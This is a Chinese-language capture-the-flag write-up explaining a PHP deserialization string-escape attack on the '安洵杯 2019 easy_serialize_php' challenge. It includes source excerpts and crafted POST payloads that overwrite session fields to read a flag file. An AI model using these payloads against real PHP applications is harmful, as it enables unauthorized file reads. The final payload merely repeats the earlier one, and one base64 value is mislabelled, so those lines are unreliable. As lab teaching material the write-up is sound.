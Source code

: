 # \[安洵杯 2019]easy\_serialize\_php

## \[安洵杯 2019]easy\_serialize\_php

## 考点



## wp

给了源码，先搞明白代码的逻辑

filter 函数将 `$img` 中含有的 数组中的元素 替换为 空，正则为 `/php|flag|php5|php4|fl1g/i`

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

GET传入`f`参数作为`function`，然后给session初始化，看到 `extract($_POST);` 说明有变量覆盖

```php
$function = @$_GET['f'];
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
extract($_POST);
if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}
```

传入`img_path`，如果`img_path`为空，就`base64_encode`字符串`guest_img.png`否则就先`base64_encode` `img_path` 再 sha1 加密

```php
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
```

然后就是对 session 进行序列化并执行 filter 函数，这里就会存在字符逃逸了

```php
$serialize_info = filter(serialize($_SESSION));
```

最后是对 `$_GET['f']` 的判断，执行不同功能

```php
if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

提示看phpinfo，在里面发现`auto_append_file d0g3_f1ag.php`，说明要看d0g3\_f1ag.php。且`session.serialize_handler`为`php`

![](<../../.gitbook/assets/image (27).png>)

现在的目的很明确，就是要读取`d0g3_f1ag.php`这个文件，利用逃逸使 session 中的 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(d0g3_f1ag.php)` ，然后在 `show_image` 中读取。

由于 `extract($_POST)` 的存在，可以利用变量覆盖修改 `$_SESSION["user"]`，`$_SESSION['function']` 和 `$function`，或者是在 `_SESSION` 中插入参数

先看一个正常的 session 文件经过序列化之后的结果，user 和 function 字段是可控的 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:10:"show_image";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这里就有两个位置可以逃逸，先看一下 function 这里 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`aphpphp`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

filter 处理之后 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`a";s:3:`</mark>`"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

我们的目标如下，发现只有 function行不通，覆盖掉 img 字段后，无法控制 object 的注入，就考虑结合 user 一起 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:39:"`<mark style="color:red;">`a";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==`</mark>`";s:6:"object";s:6:"inject";}`

变成如下这样 {1} {2} 为可控输入，要注入对象的话，{2} 的内容长度一定会大于 10，所以考虑覆盖掉 `";s:8:"function";s:10:"` ，长度为 23，扩展成 3 或 4 的倍数( 根据 filter 函数)，就是 `";s:8:"function";s:10:"a`

`a:3:{s:4:"user";s:5:"`<mark style="color:red;">`{1}`</mark>`";s:8:"function";s:10:"`<mark style="color:green;">`{2}`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这就变成这个样子 `a:3:{s:4:"user";s:24:"`<mark style="color:red;">`flagflagflagflagflagflag`</mark>`";s:8:"function";s:10:"a{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

经过 filter 函数处理

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark>`{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

然后就是 {2} 的输入内容，要让 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(f1ag_a8f7b5e6.php)` ，还要闭合前面的 `"`，那么 {2} 就是 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这样还存在问题，黄色部分的`";` 如何处理，可以结合 php 反序列化在`}`后的数据将直接被丢弃这个特点，直接构造一个结束符。{2} 为 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这还有一个问题，这个反序列化之后的数组应该有 3 个元素，这样构造只剩下 2 个，这就需要再加一个元素，随便加即可

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

![](<../../.gitbook/assets/image (9).png>)

再读取`/d0g3_fllllllag`，payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

